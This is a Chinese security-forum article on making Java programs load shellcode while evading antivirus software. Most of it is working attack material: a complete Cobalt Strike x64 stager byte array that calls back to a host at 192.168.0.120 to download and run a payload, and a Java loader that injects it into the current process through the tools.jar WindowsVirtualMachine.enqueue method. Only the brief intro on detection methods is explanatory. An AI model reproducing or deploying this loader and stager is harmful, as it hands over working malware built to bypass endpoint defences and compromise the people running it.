# Java安全之加载shellcode_bypass杀软-先知社区

> **来源**: https://xz.aliyun.com/news/16331  
> **文章ID**: 16331

---

# 前言

在现如今的杀软中，对于病毒木马识别，无非就是静态特征识别、动态特征识别、启发式识别。

1. 静态特征识别（Static Signature Detection）：  
   ○ 定义： 静态特征识别是一种基于文件的检测方法，通过分析文件的静态属性，如文件的哈希值、文件大小、文件类型、文件结构等，来确定文件是否包含已知的病毒或恶意代码。  
   ○ 工作原理： 杀毒软件使用病毒数据库中的病毒特征签名（或哈希值）来比对文件，如果文件的特征与已知病毒特征匹配，那么该文件被标记为恶意。
2. 动态特征识别（Dynamic Behavioral Detection）：  
   ○ 定义： 动态特征识别是一种基于程序运行时行为的检测方法，它关注软件在执行过程中的行为，以识别是否存在恶意活动。  
   ○ 工作原理： 杀毒软件监视程序的执行，分析其行为，如文件的读写、网络通信、系统调用等。如果程序表现出与恶意软件相似的行为模式，就可能被标记为潜在的威胁。
3. 启发式识别（Heuristic Detection）：  
   ○ 定义： 启发式识别是一种基于启发式规则的检测方法，它不依赖于已知的病毒特征，而是通过分析文件或程序的行为和特征，识别可能的威胁。  
   ○ 工作原理： 杀毒软件使用启发式算法来评估文件或程序的潜在威胁程度，而不是仅仅依赖已知的病毒签名。这样可以检测那些尚未被明确定义为病毒的新威胁。

## 方法1：依赖tools.jar加载Shellcode

原理：使用函数加载去绕过。  
通过enqueue函数加载Shellcode，测试代码：  
使用cs生成java x64 shellcode

```
01
/* length: 892 bytes */
byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x66, 0x81, 0x78, 0x18, 0x0b, 0x02, 0x75, 0x72, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x4f, 0xff, 0xff, 0xff, 0x5d, 0x6a, 0x00, 0x49, 0xbe, 0x77, 0x69, 0x6e, 0x69, 0x6e, 0x65, 0x74, 0x00, 0x41, 0x56, 0x49, 0x89, 0xe6, 0x4c, 0x89, 0xf1, 0x41, 0xba, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x48, 0x31, 0xd2, 0x4d, 0x31, 0xc0, 0x4d, 0x31, 0xc9, 0x41, 0x50, 0x41, 0x50, 0x41, 0xba, 0x3a, 0x56, 0x79, 0xa7, 0xff, 0xd5, 0xeb, 0x73, 0x5a, 0x48, 0x89, 0xc1, 0x41, 0xb8, 0xb9, 0x08, 0x00, 0x00, 0x4d, 0x31, 0xc9, 0x41, 0x51, 0x41, 0x51, 0x6a, 0x03, 0x41, 0x51, 0x41, 0xba, 0x57, 0x89, 0x9f, 0xc6, 0xff, 0xd5, 0xeb, 0x59, 0x5b, 0x48, 0x89, 0xc1, 0x48, 0x31, 0xd2, 0x49, 0x89, 0xd8, 0x4d, 0x31, 0xc9, 0x52, 0x68, 0x00, 0x02, 0x40, 0x84, 0x52, 0x52, 0x41, 0xba, 0xeb, 0x55, 0x2e, 0x3b, 0xff, 0xd5, 0x48, 0x89, 0xc6, 0x48, 0x83, 0xc3, 0x50, 0x6a, 0x0a, 0x5f, 0x48, 0x89, 0xf1, 0x48, 0x89, 0xda, 0x49, 0xc7, 0xc0, 0xff, 0xff, 0xff, 0xff, 0x4d, 0x31, 0xc9, 0x52, 0x52, 0x41, 0xba, 0x2d, 0x06, 0x18, 0x7b, 0xff, 0xd5, 0x85, 0xc0, 0x0f, 0x85, 0x9d, 0x01, 0x00, 0x00, 0x48, 0xff, 0xcf, 0x0f, 0x84, 0x8c, 0x01, 0x00, 0x00, 0xeb, 0xd3, 0xe9, 0xe4, 0x01, 0x00, 0x00, 0xe8, 0xa2, 0xff, 0xff, 0xff, 0x2f, 0x35, 0x78, 0x56, 0x5a, 0x00, 0xe6, 0xb8, 0x49, 0x33, 0xa3, 0x64, 0x57, 0x7d, 0x29, 0x88, 0xd7, 0x36, 0x39, 0xc7, 0x4d, 0x96, 0x8a, 0x7a, 0x23, 0x80, 0x12, 0x7f, 0x30, 0xe8, 0x9a, 0xab, 0xcc, 0x51, 0x36, 0xdc, 0x5a, 0x4e, 0xc0, 0x33, 0xa8, 0x6e, 0xc9, 0x50, 0x46, 0x1a, 0x7b, 0x2c, 0xac, 0x18, 0x99, 0x76, 0x74, 0xee, 0x26, 0x8c, 0x8b, 0xc3, 0x54, 0xea, 0x57, 0xfa, 0x62, 0x0b, 0xbd, 0x52, 0x2e, 0x86, 0xd1, 0xef, 0xc5, 0x41, 0x52, 0x5d, 0x35, 0x0a, 0xf3, 0x08, 0x55, 0x00, 0x55, 0x73, 0x65, 0x72, 0x2d, 0x41, 0x67, 0x65, 0x6e, 0x74, 0x3a, 0x20, 0x4d, 0x6f, 0x7a, 0x69, 0x6c, 0x6c, 0x61, 0x2f, 0x35, 0x2e, 0x30, 0x20, 0x28, 0x63, 0x6f, 0x6d, 0x70, 0x61, 0x74, 0x69, 0x62, 0x6c, 0x65, 0x3b, 0x20, 0x4d, 0x53, 0x49, 0x45, 0x20, 0x39, 0x2e, 0x30, 0x3b, 0x20, 0x57, 0x69, 0x6e, 0x64, 0x6f, 0x77, 0x73, 0x20, 0x4e, 0x54, 0x20, 0x36, 0x2e, 0x31, 0x3b, 0x20, 0x57, 0x4f, 0x57, 0x36, 0x34, 0x3b, 0x20, 0x54, 0x72, 0x69, 0x64, 0x65, 0x6e, 0x74, 0x2f, 0x35, 0x2e, 0x30, 0x29, 0x0d, 0x0a, 0x00, 0x06, 0x8c, 0x02, 0xe6, 0xec, 0x8b, 0x95, 0x43, 0xac, 0x29, 0xd9, 0xce, 0x8e, 0x4b, 0xe3, 0xcc, 0xac, 0x7b, 0x4b, 0x71, 0x5a, 0x59, 0x14, 0xe6, 0x6f, 0x3d, 0x80, 0x57, 0xa7, 0xec, 0x8c, 0xae, 0x7a, 0xcf, 0x3d, 0x80, 0xcb, 0x38, 0x62, 0x37, 0x97, 0x66, 0xd1, 0xb0, 0xa2, 0x6e, 0x9d, 0x81, 0x90, 0x0a, 0xab, 0x3c, 0xad, 0x18, 0x32, 0x3d, 0x74, 0x66, 0x2a, 0x13, 0x0b, 0x47, 0xe3, 0x03, 0xe2, 0xec, 0x6e, 0xc7, 0x65, 0x18, 0x68, 0xe4, 0x30, 0x38, 0xa8, 0x22, 0x2a, 0x1b, 0xf6, 0xd6, 0x4a, 0x14, 0x0e, 0x4c, 0x09, 0x62, 0xd0, 0xd8, 0xed, 0x9f, 0x09, 0x54, 0xdd, 0x6e, 0xbe, 0x30, 0x21, 0xca, 0x24, 0x8f, 0xc7, 0x0e, 0x02, 0x2c, 0x28, 0xca, 0xbb, 0x5e, 0x1e, 0x18, 0x69, 0xc2, 0x50, 0x38, 0x6d, 0x45, 0xa9, 0x7d, 0x42, 0x03, 0x35, 0x19, 0x33, 0xdc, 0xa8, 0x5f, 0xd9, 0x42, 0x0a, 0x17, 0xed, 0xe8, 0x6e, 0x20, 0xd2, 0x1f, 0xc3, 0xdb, 0xed, 0x26, 0x67, 0xd9, 0xcf, 0xd7, 0xca, 0xde, 0x71, 0x1f, 0xec, 0xd7, 0xa8, 0x3f, 0x7f, 0x02, 0xf9, 0xb0, 0x4f, 0xc2, 0xa5, 0x0e, 0xaa, 0xd0, 0x85, 0x15, 0x7d, 0x3d, 0xcb, 0x6e, 0xe6, 0x33, 0x3f, 0x44, 0x82, 0x9f, 0x93, 0xef, 0xd3, 0x8e, 0xf4, 0x2a, 0x97, 0x20, 0x11, 0xf3, 0xcb, 0x91, 0x82, 0x2a, 0x33, 0x24, 0xa8, 0x8c, 0xdd, 0xf4, 0x93, 0xa4, 0xe2, 0xcc, 0xad, 0x4e, 0x3b, 0x60, 0xb9, 0x3d, 0xe3, 0x68, 0x93, 0x58, 0xb0, 0x91, 0x44, 0xdc, 0x2c, 0x47, 0x23, 0x18, 0x94, 0x0a, 0x00, 0x41, 0xbe, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0xba, 0x00, 0x00, 0x40, 0x00, 0x41, 0xb8, 0x00, 0x10, 0x00, 0x00, 0x41, 0xb9, 0x40, 0x00, 0x00, 0x00, 0x41, 0xba, 0x58, 0xa4, 0x53, 0xe5, 0xff, 0xd5, 0x48, 0x93, 0x53, 0x53, 0x48, 0x89, 0xe7, 0x48, 0x89, 0xf1, 0x48, 0x89, 0xda, 0x41, 0xb8, 0x00, 0x20, 0x00, 0x00, 0x49, 0x89, 0xf9, 0x41, 0xba, 0x12, 0x96, 0x89, 0xe2, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x20, 0x85, 0xc0, 0x74, 0xb6, 0x66, 0x8b, 0x07, 0x48, 0x01, 0xc3, 0x85, 0xc0, 0x75, 0xd7, 0x58, 0x58, 0x58, 0x48, 0x05, 0x00, 0x00, 0x00, 0x00, 0x50, 0xc3, 0xe8, 0x9f, 0xfd, 0xff, 0xff, 0x31, 0x39, 0x32, 0x2e, 0x31, 0x36, 0x38, 0x2e, 0x30, 0x2e, 0x31, 0x32, 0x30, 0x00, 0x49, 0x96, 0x02, 0xd2 };

讲里面的十六进制字符前家长(byte)转成成字节文件。


 byte buf[] = new byte[]
                    {
                            (byte)0xfc,(byte)0x48,(byte)0x83,(byte)0xe4,(byte)0xf0,(byte)0xe8,(byte)0xc8,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x50,(byte)0x52,(byte)0x51,(byte)0x56,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x65,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x60,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x18,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x48,(byte)0x8b,(byte)0x72,(byte)0x50,(byte)0x48,(byte)0x0f,(byte)0xb7,(byte)0x4a,(byte)0x4a,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x3c,(byte)0x61,(byte)0x7c,(byte)0x02,(byte)0x2c,(byte)0x20,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0xe2,(byte)0xed,(byte)0x52,(byte)0x41,(byte)0x51,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x8b,(byte)0x42,(byte)0x3c,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x81,(byte)0x78,(byte)0x18,(byte)0x0b,(byte)0x02,(byte)0x75,(byte)0x72,(byte)0x8b,(byte)0x80,(byte)0x88,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0x67,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x50,(byte)0x8b,(byte)0x48,(byte)0x18,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x20,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0xe3,(byte)0x56,(byte)0x48,(byte)0xff,(byte)0xc9,(byte)0x41,(byte)0x8b,(byte)0x34,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd6,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0x38,(byte)0xe0,(byte)0x75,(byte)0xf1,(byte)0x4c,(byte)0x03,(byte)0x4c,(byte)0x24,(byte)0x08,(byte)0x45,(byte)0x39,(byte)0xd1,(byte)0x75,(byte)0xd8,(byte)0x58,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x24,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x41,(byte)0x8b,(byte)0x0c,(byte)0x48,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x1c,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x8b,(byte)0x04,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x58,(byte)0x5e,(byte)0x59,(byte)0x5a,(byte)0x41,(
                    };
```

接着，使用java加载shellcode代码

```
package jspsec;

import java.lang.reflect.Method;

public class JspShellCode {
    public static void main(String[] args) throws Exception {
     System.loadLibrary("attach");
    Class cls=Class.forName("sun.tools.attach.WindowsVirtualMachine");
    for (Method m:cls.getDeclaredMethods())
    {
        if (m.getName().equals("enqueue"))
        {
            long hProcess=-1;
            byte buf[] = new byte[]
                    {
                            (byte)0xfc,(byte)0x48,(byte)0x83,(byte)0xe4,(byte)0xf0,(byte)0xe8,(byte)0xc8,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x50,(byte)0x52,(byte)0x51,(byte)0x56,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x65,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x60,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x18,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x48,(byte)0x8b,(byte)0x72,(byte)0x50,(byte)0x48,(byte)0x0f,(byte)0xb7,(byte)0x4a,(byte)0x4a,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x3c,(byte)0x61,(byte)0x7c,(byte)0x02,(byte)0x2c,(byte)0x20,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0xe2,(byte)0xed,(byte)0x52,(byte)0x41,(byte)0x51,(byte)0x48,(byte)0x8b,(byte)0x52,(byte)0x20,(byte)0x8b,(byte)0x42,(byte)0x3c,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x81,(byte)0x78,(byte)0x18,(byte)0x0b,(byte)0x02,(byte)0x75,(byte)0x72,(byte)0x8b,(byte)0x80,(byte)0x88,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0x67,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x50,(byte)0x8b,(byte)0x48,(byte)0x18,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x20,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0xe3,(byte)0x56,(byte)0x48,(byte)0xff,(byte)0xc9,(byte)0x41,(byte)0x8b,(byte)0x34,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd6,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xc0,(byte)0xac,(byte)0x41,(byte)0xc1,(byte)0xc9,(byte)0x0d,(byte)0x41,(byte)0x01,(byte)0xc1,(byte)0x38,(byte)0xe0,(byte)0x75,(byte)0xf1,(byte)0x4c,(byte)0x03,(byte)0x4c,(byte)0x24,(byte)0x08,(byte)0x45,(byte)0x39,(byte)0xd1,(byte)0x75,(byte)0xd8,(byte)0x58,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x24,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x66,(byte)0x41,(byte)0x8b,(byte)0x0c,(byte)0x48,(byte)0x44,(byte)0x8b,(byte)0x40,(byte)0x1c,(byte)0x49,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x8b,(byte)0x04,(byte)0x88,(byte)0x48,(byte)0x01,(byte)0xd0,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x58,(byte)0x5e,(byte)0x59,(byte)0x5a,(byte)0x41,(byte)0x58,(byte)0x41,(byte)0x59,(byte)0x41,(byte)0x5a,(byte)0x48,(byte)0x83,(byte)0xec,(byte)0x20,(byte)0x41,(byte)0x52,(byte)0xff,(byte)0xe0,(byte)0x58,(byte)0x41,(byte)0x59,(byte)0x5a,(byte)0x48,(byte)0x8b,(byte)0x12,(byte)0xe9,(byte)0x4f,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x5d,(byte)0x6a,(byte)0x00,(byte)0x49,(byte)0xbe,(byte)0x77,(byte)0x69,(byte)0x6e,(byte)0x69,(byte)0x6e,(byte)0x65,(byte)0x74,(byte)0x00,(byte)0x41,(byte)0x56,(byte)0x49,(byte)0x89,(byte)0xe6,(byte)0x4c,(byte)0x89,(byte)0xf1,(byte)0x41,(byte)0xba,(byte)0x4c,(byte)0x77,(byte)0x26,(byte)0x07,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x31,(byte)0xc9,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x4d,(byte)0x31,(byte)0xc0,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x41,(byte)0x50,(byte)0x41,(byte)0x50,(byte)0x41,(byte)0xba,(byte)0x3a,(byte)0x56,(byte)0x79,(byte)0xa7,(byte)0xff,(byte)0xd5,(byte)0xeb,(byte)0x73,(byte)0x5a,(byte)0x48,(byte)0x89,(byte)0xc1,(byte)0x41,(byte)0xb8,(byte)0xb9,(byte)0x08,(byte)0x00,(byte)0x00,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0x51,(byte)0x6a,(byte)0x03,(byte)0x41,(byte)0x51,(byte)0x41,(byte)0xba,(byte)0x57,(byte)0x89,(byte)0x9f,(byte)0xc6,(byte)0xff,(byte)0xd5,(byte)0xeb,(byte)0x59,(byte)0x5b,(byte)0x48,(byte)0x89,(byte)0xc1,(byte)0x48,(byte)0x31,(byte)0xd2,(byte)0x49,(byte)0x89,(byte)0xd8,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x52,(byte)0x68,(byte)0x00,(byte)0x02,(byte)0x40,(byte)0x84,(byte)0x52,(byte)0x52,(byte)0x41,(byte)0xba,(byte)0xeb,(byte)0x55,(byte)0x2e,(byte)0x3b,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x89,(byte)0xc6,(byte)0x48,(byte)0x83,(byte)0xc3,(byte)0x50,(byte)0x6a,(byte)0x0a,(byte)0x5f,(byte)0x48,(byte)0x89,(byte)0xf1,(byte)0x48,(byte)0x89,(byte)0xda,(byte)0x49,(byte)0xc7,(byte)0xc0,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x4d,(byte)0x31,(byte)0xc9,(byte)0x52,(byte)0x52,(byte)0x41,(byte)0xba,(byte)0x2d,(byte)0x06,(byte)0x18,(byte)0x7b,(byte)0xff,(byte)0xd5,(byte)0x85,(byte)0xc0,(byte)0x0f,(byte)0x85,(byte)0x9d,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0x48,(byte)0xff,(byte)0xcf,(byte)0x0f,(byte)0x84,(byte)0x8c,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0xeb,(byte)0xd3,(byte)0xe9,(byte)0xe4,(byte)0x01,(byte)0x00,(byte)0x00,(byte)0xe8,(byte)0xa2,(byte)0xff,(byte)0xff,(byte)0xff,(byte)0x2f,(byte)0x35,(byte)0x78,(byte)0x56,(byte)0x5a,(byte)0x00,(byte)0xe6,(byte)0xb8,(byte)0x49,(byte)0x33,(byte)0xa3,(byte)0x64,(byte)0x57,(byte)0x7d,(byte)0x29,(byte)0x88,(byte)0xd7,(byte)0x36,(byte)0x39,(byte)0xc7,(byte)0x4d,(byte)0x96,(byte)0x8a,(byte)0x7a,(byte)0x23,(byte)0x80,(byte)0x12,(byte)0x7f,(byte)0x30,(byte)0xe8,(byte)0x9a,(byte)0xab,(byte)0xcc,(byte)0x51,(byte)0x36,(byte)0xdc,(byte)0x5a,(byte)0x4e,(byte)0xc0,(byte)0x33,(byte)0xa8,(byte)0x6e,(byte)0xc9,(byte)0x50,(byte)0x46,(byte)0x1a,(byte)0x7b,(byte)0x2c,(byte)0xac,(byte)0x18,(byte)0x99,(byte)0x76,(byte)0x74,(byte)0xee,(byte)0x26,(byte)0x8c,(byte)0x8b,(byte)0xc3,(byte)0x54,(byte)0xea,(byte)0x57,(byte)0xfa,(byte)0x62,(byte)0x0b,(byte)0xbd,(byte)0x52,(byte)0x2e,(byte)0x86,(byte)0xd1,(byte)0xef,(byte)0xc5,(byte)0x41,(byte)0x52,(byte)0x5d,(byte)0x35,(byte)0x0a,(byte)0xf3,(byte)0x08,(byte)0x55,(byte)0x00,(byte)0x55,(byte)0x73,(byte)0x65,(byte)0x72,(byte)0x2d,(byte)0x41,(byte)0x67,(byte)0x65,(byte)0x6e,(byte)0x74,(byte)0x3a,(byte)0x20,(byte)0x4d,(byte)0x6f,(byte)0x7a,(byte)0x69,(byte)0x6c,(byte)0x6c,(byte)0x61,(byte)0x2f,(byte)0x35,(byte)0x2e,(byte)0x30,(byte)0x20,(byte)0x28,(byte)0x63,(byte)0x6f,(byte)0x6d,(byte)0x70,(byte)0x61,(byte)0x74,(byte)0x69,(byte)0x62,(byte)0x6c,(byte)0x65,(byte)0x3b,(byte)0x20,(byte)0x4d,(byte)0x53,(byte)0x49,(byte)0x45,(byte)0x20,(byte)0x39,(byte)0x2e,(byte)0x30,(byte)0x3b,(byte)0x20,(byte)0x57,(byte)0x69,(byte)0x6e,(byte)0x64,(byte)0x6f,(byte)0x77,(byte)0x73,(byte)0x20,(byte)0x4e,(byte)0x54,(byte)0x20,(byte)0x36,(byte)0x2e,(byte)0x31,(byte)0x3b,(byte)0x20,(byte)0x57,(byte)0x4f,(byte)0x57,(byte)0x36,(byte)0x34,(byte)0x3b,(byte)0x20,(byte)0x54,(byte)0x72,(byte)0x69,(byte)0x64,(byte)0x65,(byte)0x6e,(byte)0x74,(byte)0x2f,(byte)0x35,(byte)0x2e,(byte)0x30,(byte)0x29,(byte)0x0d,(byte)0x0a,(byte)0x00,(byte)0x06,(byte)0x8c,(byte)0x02,(byte)0xe6,(byte)0xec,(byte)0x8b,(byte)0x95,(byte)0x43,(byte)0xac,(byte)0x29,(byte)0xd9,(byte)0xce,(byte)0x8e,(byte)0x4b,(byte)0xe3,(byte)0xcc,(byte)0xac,(byte)0x7b,(byte)0x4b,(byte)0x71,(byte)0x5a,(byte)0x59,(byte)0x14,(byte)0xe6,(byte)0x6f,(byte)0x3d,(byte)0x80,(byte)0x57,(byte)0xa7,(byte)0xec,(byte)0x8c,(byte)0xae,(byte)0x7a,(byte)0xcf,(byte)0x3d,(byte)0x80,(byte)0xcb,(byte)0x38,(byte)0x62,(byte)0x37,(byte)0x97,(byte)0x66,(byte)0xd1,(byte)0xb0,(byte)0xa2,(byte)0x6e,(byte)0x9d,(byte)0x81,(byte)0x90,(byte)0x0a,(byte)0xab,(byte)0x3c,(byte)0xad,(byte)0x18,(byte)0x32,(byte)0x3d,(byte)0x74,(byte)0x66,(byte)0x2a,(byte)0x13,(byte)0x0b,(byte)0x47,(byte)0xe3,(byte)0x03,(byte)0xe2,(byte)0xec,(byte)0x6e,(byte)0xc7,(byte)0x65,(byte)0x18,(byte)0x68,(byte)0xe4,(byte)0x30,(byte)0x38,(byte)0xa8,(byte)0x22,(byte)0x2a,(byte)0x1b,(byte)0xf6,(byte)0xd6,(byte)0x4a,(byte)0x14,(byte)0x0e,(byte)0x4c,(byte)0x09,(byte)0x62,(byte)0xd0,(byte)0xd8,(byte)0xed,(byte)0x9f,(byte)0x09,(byte)0x54,(byte)0xdd,(byte)0x6e,(byte)0xbe,(byte)0x30,(byte)0x21,(byte)0xca,(byte)0x24,(byte)0x8f,(byte)0xc7,(byte)0x0e,(byte)0x02,(byte)0x2c,(byte)0x28,(byte)0xca,(byte)0xbb,(byte)0x5e,(byte)0x1e,(byte)0x18,(byte)0x69,(byte)0xc2,(byte)0x50,(byte)0x38,(byte)0x6d,(byte)0x45,(byte)0xa9,(byte)0x7d,(byte)0x42,(byte)0x03,(byte)0x35,(byte)0x19,(byte)0x33,(byte)0xdc,(byte)0xa8,(byte)0x5f,(byte)0xd9,(byte)0x42,(byte)0x0a,(byte)0x17,(byte)0xed,(byte)0xe8,(byte)0x6e,(byte)0x20,(byte)0xd2,(byte)0x1f,(byte)0xc3,(byte)0xdb,(byte)0xed,(byte)0x26,(byte)0x67,(byte)0xd9,(byte)0xcf,(byte)0xd7,(byte)0xca,(byte)0xde,(byte)0x71,(byte)0x1f,(byte)0xec,(byte)0xd7,(byte)0xa8,(byte)0x3f,(byte)0x7f,(byte)0x02,(byte)0xf9,(byte)0xb0,(byte)0x4f,(byte)0xc2,(byte)0xa5,(byte)0x0e,(byte)0xaa,(byte)0xd0,(byte)0x85,(byte)0x15,(byte)0x7d,(byte)0x3d,(byte)0xcb,(byte)0x6e,(byte)0xe6,(byte)0x33,(byte)0x3f,(byte)0x44,(byte)0x82,(byte)0x9f,(byte)0x93,(byte)0xef,(byte)0xd3,(byte)0x8e,(byte)0xf4,(byte)0x2a,(byte)0x97,(byte)0x20,(byte)0x11,(byte)0xf3,(byte)0xcb,(byte)0x91,(byte)0x82,(byte)0x2a,(byte)0x33,(byte)0x24,(byte)0xa8,(byte)0x8c,(byte)0xdd,(byte)0xf4,(byte)0x93,(byte)0xa4,(byte)0xe2,(byte)0xcc,(byte)0xad,(byte)0x4e,(byte)0x3b,(byte)0x60,(byte)0xb9,(byte)0x3d,(byte)0xe3,(byte)0x68,(byte)0x93,(byte)0x58,(byte)0xb0,(byte)0x91,(byte)0x44,(byte)0xdc,(byte)0x2c,(byte)0x47,(byte)0x23,(byte)0x18,(byte)0x94,(byte)0x0a,(byte)0x00,(byte)0x41,(byte)0xbe,(byte)0xf0,(byte)0xb5,(byte)0xa2,(byte)0x56,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x31,(byte)0xc9,(byte)0xba,(byte)0x00,(byte)0x00,(byte)0x40,(byte)0x00,(byte)0x41,(byte)0xb8,(byte)0x00,(byte)0x10,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0xb9,(byte)0x40,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x41,(byte)0xba,(byte)0x58,(byte)0xa4,(byte)0x53,(byte)0xe5,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x93,(byte)0x53,(byte)0x53,(byte)0x48,(byte)0x89,(byte)0xe7,(byte)0x48,(byte)0x89,(byte)0xf1,(byte)0x48,(byte)0x89,(byte)0xda,(byte)0x41,(byte)0xb8,(byte)0x00,(byte)0x20,(byte)0x00,(byte)0x00,(byte)0x49,(byte)0x89,(byte)0xf9,(byte)0x41,(byte)0xba,(byte)0x12,(byte)0x96,(byte)0x89,(byte)0xe2,(byte)0xff,(byte)0xd5,(byte)0x48,(byte)0x83,(byte)0xc4,(byte)0x20,(byte)0x85,(byte)0xc0,(byte)0x74,(byte)0xb6,(byte)0x66,(byte)0x8b,(byte)0x07,(byte)0x48,(byte)0x01,(byte)0xc3,(byte)0x85,(byte)0xc0,(byte)0x75,(byte)0xd7,(byte)0x58,(byte)0x58,(byte)0x58,(byte)0x48,(byte)0x05,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x00,(byte)0x50,(byte)0xc3,(byte)0xe8,(byte)0x9f,(byte)0xfd,(byte)0xff,(byte)0xff,(byte)0x31,(byte)0x39,(byte)0x32,(byte)0x2e,(byte)0x31,(byte)0x36,(byte)0x38,(byte)0x2e,(byte)0x30,(byte)0x2e,(byte)0x31,(byte)0x32,(byte)0x30,(byte)0x00,(byte)0x49,(byte)0x96,(byte)0x02,(byte)0xd2
                    };
            String cmd="load";String pipeName="test";
            m.setAccessible(true);
            Object result=m.invoke(cls,new Object[]{hProcess,buf,cmd,pipeName,new Object[]{}});
            System.out.println("result:"+result);
        }
    }
    Thread.sleep(4000);
}
}
```

long hProcess=-1;表示注入当前Java进程  
